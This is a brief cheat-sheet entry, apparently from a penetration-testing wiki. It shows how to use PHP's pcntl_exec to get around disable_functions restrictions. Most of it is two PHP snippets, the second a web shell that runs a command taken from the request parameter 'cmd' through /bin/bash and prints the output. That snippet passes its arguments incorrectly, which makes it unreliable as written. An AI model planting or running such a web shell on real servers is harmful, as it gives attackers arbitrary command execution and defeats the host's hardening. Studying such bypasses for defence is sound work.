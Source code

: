 # PHP 4 &gt;= 4.2.0, PHP 5 pcntl_exec



From [[http://blog.safebuff.com/2016/05/06/disable-functions-bypass/|http://blog.safebuff.com/2016/05/06/disable-functions-bypass/]]

```php
<?php
$dir = '/var/tmp/';
$cmd = 'ls';
$option = '-l';
$pathtobin = '/bin/bash';

$arg = array($cmd, $option, $dir);

pcntl_exec($pathtobin, $arg);
echo '123';
?>
<?php
$cmd = @$_REQUEST[cmd];
if(function_exists('pcntl_exec')) {
    $cmd = $cmd."&pkill -9 bash >out";
    pcntl_exec("/bin/bash", $cmd);
    echo file_get_contents("out");
} else {
        echo '不支持pcntl扩展';
}
?>
```
```




